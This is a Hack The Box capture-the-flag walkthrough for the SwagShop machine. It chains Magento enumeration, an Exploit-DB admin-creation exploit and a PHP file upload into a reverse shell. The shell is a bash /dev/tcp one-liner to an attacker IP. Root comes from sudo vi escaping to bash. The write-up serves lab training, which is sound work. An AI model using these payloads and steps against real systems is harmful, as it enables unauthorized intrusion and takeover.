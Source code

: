 # SwagShop

**Links:** [1](https://www.hackthebox.com/machines/swagshop)  [2](https://app.hackthebox.com/machines/swagshop)

**Machine ip:** 10.10.10.140

![SwagShop](https://github.com/h4md153v63n/CTFs/assets/5091265/73292ad2-0089-44f9-8d3c-a09b29f7a81d)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.140 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.140 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/936de3e3-86b1-4006-a7ef-6a3f0fe2aa32)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.6p1
Port tcp 80: Apache httpd 2.4.29
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.140/`, and no works.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/867650f8-07a9-4a97-9db1-afa666204b13)

+ Add **swagshop.htb** into **hosts** file, and again revisit.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cdd986e-32af-41a3-a1e1-01757f0f2dce)

+ The application is magento that is an open-source e-commerce platform written in PHP.
+ We need to discover the version of magento.
+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://swagshop.htb/ -k -n -x html,php,txt -r -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d41e6d29-b58c-4b19-ba61-7b7a4e072b87)

+ Navigate to `http://swagshop.htb/app/etc/local.xml`, and take note of **username:password** with **key**.
+ When trying ssh login and login page with these credentials, it doesn't work.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bab5becc-4821-4cdd-bce0-ed8f3ed80de7)

+ View page source, and discover unfamiliar directory of **/index.php/**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/72089ffb-ed32-4861-bae5-91a7d381be1a)

+ Approach with suspicion, and directory fuzzing for under **/index.php/**.
```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://swagshop.htb/index.php/ -k -n -x html,php,txt -r -t 20
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/970e5c7a-e7cc-48d3-b20d-8a3ca0967b59)

+ Discovered admin login panel: `http://swagshop.htb/index.php/admin`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f07c0b07-b08c-44f9-ba1f-fbf1d54e4234)


## Gaining Access
+ Check whether it has any exploits: `searchsploit magento`
+ Focus rce ones, and check **37977.py** with **37811.py**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49088aa5-5b40-4b65-9c92-598bc22df3f8)

+ **Firstly**, when tried to exploit with 37811.py, it gives errors **mechanize._form_controls.AmbiguityError: more than one control matching name ‘login[username]’** and **AttributeError: ‘NoneType’ object has no attribute ‘group’**. Check the links: [1](https://forum.hackthebox.com/t/swagshop-rce/1959) [2](https://forum.hackthebox.com/t/was-swagshop-patched-again/3832) [3](https://forum.hackthebox.com/t/swagshop-errors-in-script-37811-py/1965).
+ I didn't try the solution with [burp broxy](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit#id-26dd).

+ **Secondly**, concentrate on **37977.py**, and copy the exploit.
+ Open the exploit, and change **target** as `http://swagshop.htb/index.php/`.
+ Delete the 9-23th lines and after the 62nd line.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a57b0991-8ae7-4301-8c4a-9f2dde48f4fb)

+ If wanna to specify username:pass different from **forme:forme**, try **test:test**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7f5f7a01-8539-4792-b5ac-c0d76cfa9836)

+ Run exploit with python2: `python2 37977.py` and see it worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/68df934e-dbfb-46b6-b1d4-80013065526c)

+ Login the admin login panel with **test:test**: `http://swagshop.htb/index.php/admin`, and see that worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/31fd6e3c-e7e5-4112-b3e8-3e9804c6dbf6)

+ **Follow consecutively**, Catalog -> Manage Products -> Click of the name on products -> Custom Options -> Add New Option: Fill out the fields with Input Type:File and Allowed File Extensions:php -> Save, and be sure that the product has been saved.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4fb0a78c-13fd-425d-9f14-1872887b7f1a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/313ebb45-331c-40bf-93c2-d46a10d22203)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bfb592ba-ff8c-4a89-801d-3fe8e4c50321)

+ Next go to the home page `http://swagshop.htb/index.php/`, and click on **5 x Hack The Box Square Sticker**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/80a6e0ae-b42b-4f0f-a26a-62cec021c306)

+ You will see that now we can upload files using the product fields. The file that we allowed to upload includes all files with PHP extensions:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df34f462-7f9b-4146-a5dc-c81071a8c742)

+ Create a reverse shell .php file as **shell.php**. Upload it using **browse** button, and ADD TO CART.
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'"); ?>
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b87bc67d-e9aa-416c-a35d-d512535bea31)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/502e1a27-71db-44b8-b43c-6aabe2e8c3d2)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ **Finally**, go to the under **media** directory `http://swagshop.htb/media/custom_options/quote/s/h/` that is discovered on the first directory fuzzing.
+ Click the php file named created unique random name.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d7a200d7-f925-4f1f-af42-f6dc2bbf28f6)

+ Get low level shell, and see the www-data's privilege is enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f283088e-d95e-4d02-a123-46941339b6a1)

+ But yet we need to elevate root privilege.


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/63a9d3b8-9bc0-4d88-bb02-ca5e422acf27)


## Privilege Escalation
+ Escalate privileges to get the root flag.
+ View commands the user can run using sudo without a password: `sudo -l`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5a18351b-25b3-4a5e-b513-2cc9f403ab54)
  
+ User www-data can run sudo with no password and with root's privileges for **/usr/bin/vi**.
+ Check gtfobins for [vi](https://gtfobins.github.io/gtfobins/vi/).
+ Run the commands to get the root shell:
```
sudo /usr/bin/vi /var/www/html/test

# on vi editor:
:!bash
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e815cb80-6768-44e3-b989-e788070d7042)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9f9f5417-4313-4712-9274-ac6d79c0fddc)


# Technical Knowledge
+ https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
+ 


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#swagshop
+ https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html
+ https://www.hackingarticles.in/swagshop-hackthebox-walkthrough/
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/swagshop/scanning-and-enumeration
+ https://medium.com/@v1per/swagshop-hackthebox-writeup-a23f18e6b88b
